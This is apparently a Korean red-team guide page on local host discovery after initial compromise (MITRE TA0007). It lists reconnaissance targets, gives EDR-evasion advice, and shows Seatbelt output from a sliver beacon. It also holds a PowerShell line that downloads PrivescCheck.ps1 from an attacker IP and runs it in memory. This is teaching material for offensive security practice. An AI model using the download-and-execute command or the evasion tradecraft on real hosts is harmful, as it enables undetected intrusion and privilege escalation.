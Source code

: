 ```yaml
---
description: MITRE ATTACK - TA0007 (T1082, T1016, ...)
---
```


# 로컬 호스트 정보 수집

초기 침투 이후 호스트에 접근 했다면 가장 먼저 해야할 일은 호스트/로컬 정보 수집이다. 이 호스트가 어떤 호스트인지, 생성된 프로세스가 어떤 유저의 컨텍스트(context)를 갖고 있는지, 어떤 AV/EDR 솔루션이 있는지 등을 파악하는 것이다. 이 단계를 잘 거쳐야만 레드팀으로서는 탐지 당하지 않고 안전하게 필요한 공격들을 수행할 수 있게 된다. 또한, 로컬 정보 수집으로 얻어진 정보들은 로컬 권한 상승 공격에 사용되기도 한다.&#x20;

이 페이지에서는 다음과 같은 정보들에 대해 알아본다.

1. 로컬 정보 수집을 실행할 때 알아봐야할 정보
2. 작전 보안을 위해 조심해야할 점
3. 로컬 정보 수집 툴&#x20;

정보 수집에 사용되는 명령어들은 [파워쉘 페이지](powershell.md)와 [C# 페이지](csharp.md)를 참고한다.&#x20;

### 로컬 정보 수집 - 정보

#### 기본 정보 &#x20;

* 호스트 이름&#x20;
* 도메인 이름
* 운영체제 이름 및 버전&#x20;
* 윈도우핫픽스, 보안 패치 리스트&#x20;
* Network Interface Cards (NICs) - Dual-Homed 체크&#x20;
* IP, subnet mask, gateway&#x20;
* ARP table&#x20;

#### 유저 정보&#x20;

* 유저 이름&#x20;
* 유저 권한
* 로컬 유저 그룹&#x20;

#### 프로세스 정보&#x20;

* 프로세스 리스트 확인&#x20;
* 현 프로세스의 32비트, 64비트 확인 (`IsWow64Process(), GetSystemInfo()`)

#### 보안 기술 확인&#x20;

* AV, EDR, Defender, AMSI, sysmon, logging frameworks&#x20;
* CredGuard&#x20;
* .NET Framework 버전 (4.8+ 이라면 .NET AMSI 확인)
* LAPS 적용 확인&#x20;
* 파워쉘 v2
* Applocker&#x20;



### 작전 보안&#x20;

타겟 호스트에 쉘을 얻자마자 `whoami, ipconfig` 등의 윈도우 기본 PE 바이너리(whoami는 명령어가 아니다)를 이용해 로컬 정보 수집을 한다면 그 즉시 EDR 솔루션에게 발각되어 프로세스가 종료될 것이다. 기본 명령어 및 기본 프로세스를 이용해 로컬 정보 수집을 하던 시대는 2000년대 이후로 끝났다.&#x20;

작전보안을 지키며 로컬 정보를 수집하고 싶다면 제3자 프로그래밍 언어 (로 만들어진 툴) 을 이용해 WinAPI혹은 direct 시스템 콜을 이용해 메모리상에서 윈도우 커널과 소통해야한다. 물론 이는 쉬운 일이 아니고, 실제 작전이 실행되고 있을 때 일일히 WinAPI 혹은 direct syscall을 코딩해 사용할 수는 없는 노릇이다.&#x20;

이 문제점을 해결하기 위해 레드팀들은 로컬 정보 수집을 위한 툴을 만들기 시작했다. &#x20;



### 실습과 툴&#x20;

2022년대 기준 로컬 정보 수집은 비컨 프로세스의 메모리상에서 winapi/direct syscall 툴을 실행하거나, 다른 프로세스에 인젝션을 통해 진행한다.&#x20;

유명한 로컬 정보 수집 툴들은 다음과 같다:&#x20;

* [Seatbelt](https://github.com/GhostPack/Seatbelt)&#x20;
* [Situational-Awareness BOF ](https://github.com/trustedsec/CS-Situational-Awareness-BOF)
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)

{% tabs %}
{% tab title="비컨 - 레드팀" %}
sliver 비컨에서 Seatbelt 라는 로컬 정보 수집 툴을 이용한다.&#x20;

```
sliver (LOST_QUICKSAND) > seatbelt '' "-group=system"

< ... > 

====== WindowsAutoLogon ======                                                                                        
                                                                                                                      
  DefaultDomainName              : CHOI                                                                               
  DefaultUserName                : Administrator                                                                      
  DefaultPassword                :                                                                                    
  AltDefaultDomainName           :                                                                                    
  AltDefaultUserName             :                                                                                    
  AltDefaultPassword             :                                                                                    
                                                           
====== WindowsDefender ======         
                                                           
Locally-defined Settings:                                  
                                                           
                                                           
                                                                                                                      
GPO-defined Settings:                                      
====== WindowsEventForwarding ======  
                                                           
====== WindowsFirewall ======                              
                                                           
Collecting Windows Firewall Non-standard Rules
                                                                                                                      
                                                                                                                      
Location                     : SOFTWARE\Policies\Microsoft\WindowsFirewall

< ... >
```
{% endtab %}

{% tab title="윈도우 - 모의해킹" %}
모의해킹 실행시 타겟에 횡적이동을 한 뒤 파워쉘을 이용해 로컬 정보 수집을 진행한다. 파워쉘 스크립트를 모의해커의 호스트에서 불러온 뒤, 메모리상에서 실행시킨다. 툴은 PrivEscCheck.ps1을 사용한다.&#x20;

```
# 공격자 호스트에서 불러온 뒤 실행 
iex(new-object net.webclient).downloadstring('http://<공격자IP>:<포트>/PrivescCheck.ps1');Invoke-PrivEscCheck

< ... >
+-----------------------------------------------------------------------------+
|                         ~~~ PrivescCheck Report ~~~                         |
+----+------+-----------------------------------------------------------------+
| NA | None | CONFIG > SCCM Cache Folder (info)                               |
| OK | None | CONFIG > Hardened UNC Paths                                     |
| OK | None | CONFIG > Point and Print                                        |
| OK | None | CONFIG > WSUS Configuration                                     |
| NA | None | CONFIG > Driver Co-Installers -> 1 result(s)                    |
| NA | None | CREDS > Vault List                                              |
| OK | None | CREDS > GPP Passwords                                           |
< ... > 
```
{% endtab %}
{% endtabs %}



